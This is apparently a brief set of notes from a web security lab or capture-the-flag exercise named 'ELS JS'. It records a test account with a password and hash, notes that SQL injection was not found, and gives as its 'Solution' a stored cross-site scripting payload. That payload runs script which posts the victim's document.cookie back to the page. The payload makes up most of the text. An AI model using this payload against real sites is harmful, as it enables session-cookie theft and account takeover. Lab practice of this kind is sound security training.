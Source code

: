 ## ELS JS

# created users

usernameA:passwordA:a@a.nl:nameA:8277a8ab5fc7a86cda6231512e7a3b08d6c671b5

# xss

no obvious sql injection
Worked: <a href='#'>test</a>

Solution:
<img onload='loadImage()' alt=''>Just a normal message10<script type="text/javascript">var xhr = new XMLHttpRequest();
xhr.open("POST", '?', true);xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

xhr.onreadystatechange = function() {if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {}};
xhr.send("note="+document.cookie);</script>





